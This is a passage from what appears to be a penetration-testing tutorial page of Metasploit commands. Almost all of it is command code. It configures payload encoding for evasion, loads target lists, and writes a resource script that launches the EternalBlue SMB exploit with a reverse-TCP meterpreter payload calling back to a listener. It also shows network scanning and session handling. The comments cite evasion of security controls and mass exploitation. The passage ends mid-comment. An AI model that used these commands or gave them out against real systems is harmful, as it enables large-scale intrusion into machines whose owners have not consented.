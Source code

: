 ```bash
# Exploit reliability and targeting
set AutoRunScript post/windows/manage/migrate # Auto-migrate after exploitation
set PrependMigrate true                      # Prepend migration to payload
set EXITFUNC thread                          # Exit function for payload stability
set EnableStageEncoding true                 # Encode staged payloads
set StageEncoder x86/shikata_ga_nai         # Specific encoder selection

# Evasion and stealth options
set VERBOSE false                            # Reduce output verbosity
set DisablePayloadHandler false              # Control payload handler
set ReverseAllowProxy true                   # Allow proxy for reverse connections
set PayloadUUIDTracking true                 # Enable payload UUID tracking

# Multi-targeting configuration
setg RHOSTS file:/path/to/targets.txt       # Set global targets from file
setg LHOST 192.168.1.5                      # Set global local host
services -p 445 -R                           # Set targets from database services

# Why advanced configuration is important:
# - Improves exploit reliability and success rates
# - Enables evasion of security controls
# - Facilitates mass exploitation scenarios
# - Provides better post-exploitation stability

# Resource scripts for automation
cat > auto_exploit.rc << 'EOF'
use exploit/windows/smb/ms17_010_eternalblue
set RHOSTS file:/tmp/targets.txt
set payload windows/x64/meterpreter/reverse_tcp
set LHOST 192.168.1.5
set LPORT 4444
set AutoRunScript post/multi/manage/autoroute
exploit -j -z
EOF
msfconsole -r auto_exploit.rc               # Execute resource script

# Database integration for targeting
db_nmap -sS -A 192.168.1.0/24               # Nmap scan with database storage
hosts                                        # List discovered hosts
services                                     # List discovered services
vulns                                        # List identified vulnerabilities
services -p 445 -R                           # Set RHOSTS from SMB services
```

### **Metasploit Exploitation Execution**

```bash
# Exploit execution methods
exploit                                      # Run exploit and wait for session
exploit -j                                   # Run exploit as background job
exploit -z                                   # Don't interact with session immediately
exploit -j -z                                # Background job, no interaction
run                                          # Alternative to exploit command

# Session management
sessions                                     # List active sessions
sessions -l                                  # List sessions with details
sessions -i 1                                # Interact with session 1
sessions -k 1                                # Kill session 1
sessions -K                                  # Kill all sessions
sessions -u 1                                # Upgrade shell to meterpreter

# Why session management is crucial:
```